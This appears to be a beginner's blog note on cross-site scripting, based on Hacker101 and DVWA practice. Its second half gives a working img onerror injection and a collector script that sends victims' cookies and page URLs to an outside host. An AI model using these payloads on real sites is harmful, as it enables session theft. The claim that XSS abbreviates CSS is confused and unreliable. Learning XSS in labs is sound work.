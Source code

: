 ```yaml
---
layout: title
title: What is XSS
date: 2018-12-17 09:11:06
tags: hacker101, security, XSS
categories: Hack
---
```


After following the hack101 video tutorial for a while. I want to write some note about XSS. 

## What is XSS

XSS(Cross Site Scripting) is the mix abbreviation for Cascading Style Sheets, CSS. Though it seems out of date at the moment. But to some beginner just like me, it's a good way to experience the fun of looking bugs. 

## XSS detecting
People can deploy a DVWA as a dev environment for testing the XSS.

At the lowest security level of DVWA, the client owns no filter to any users input. It means, input is the output. 

The simplest XSS detecting is the `alert(1)`. Whether create a div or inject a `<script>alert(1)</script>`, the things we focus on is compile the code. 

## How hacker use XSS
Sometimes, when the security developer found that bug, he will terminate the XSS, that is one of his duty. But as a cursorily, he needs to use those bug to find why a way to hackin the inside. 
If the website exists XSS loophole, then it must be able to run the js code.

e.g. we can get the cookies on the page by enter alert(document.cookie). But most of time, hacker don't just inject a snippet of code, since it is no reason to use their own cookie. But they can send the cookies to a platform. Like XSSer, receive the XSS from all over the world. 

When xsser has done, hacker can insert the script into page like this: 

```
<img   onerror="s=createElement('script');body.appendChild(s);s.src='http://192.168.1.103/xss/SMA9ST';" src="x">
```

This is a img tag, the src is point to `x`. Obviously, this address is not exists. So it will run `onerror`. This function will generate a script tag, then point the new script tag to the xsser platform, which we builded before. Once the code request to the xsser. It will get the code, e.g.

```
(function() {
		(new Image()).src = 'http://192.168.1.103/xss/index.php?do=api&id=SMA9ST&location=' + escape((function() {
			try {
				return document.location.href
			} catch (e) {
				return ''
			}
		})()) + '&toplocation=' + escape((function() {
			try {
				return top.location.href
			} catch (e) {
				return ''
			}
		})()) + '&cookie=' + escape((function() {
			try {
				return document.cookie
			} catch (e) {
				return ''
			}
		})()) + '&opener=' + escape((function() {
			try {
				return (window.opener && window.opener.location.href) ? window.opener.location.href : ''
			} catch (e) {
				return ''
			}
		})());
	})();
```

In this code snippet, it also generate a image object and request a xsser project. Than we got the location information and cookies. 

Everytime when people open XSS page, the browser will run that kind of code, it mask as a image to send data to xsser.

That is the simple usage of XSS.

